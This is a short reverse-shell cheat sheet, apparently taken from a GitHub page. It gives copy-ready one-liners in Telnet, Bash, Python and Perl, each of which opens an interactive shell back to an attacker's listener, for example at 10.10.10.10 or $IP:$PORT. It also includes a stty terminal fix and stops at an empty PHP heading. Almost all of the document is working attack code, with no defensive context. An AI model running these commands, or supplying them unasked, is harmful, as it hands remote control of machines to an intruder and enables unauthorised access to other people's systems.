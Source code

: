 Fixing terminal size
```bash
stty -a
stty -rows 48 -columns 120
```

## Telnet
```bash
TF=$(mktemp -u);mkfifo $TF && telnet 10.10.10.10 9001 0<$TF | /bin/sh 1>$TF
```

## Bash

```bash
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/$IP/$PORT <&1'
```

For Piped Bash on download of Bash.py  using environment variables.
```bash
export RHOST="10.10.10.10";export RPORT=9999;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

## Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

File version
```python
import socket, subprocess,os

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("$IP", $PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh", "-i"])
```

## Perl

```perl
perl -e 'use Socket;$i="$IP";$p=$PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## PHP
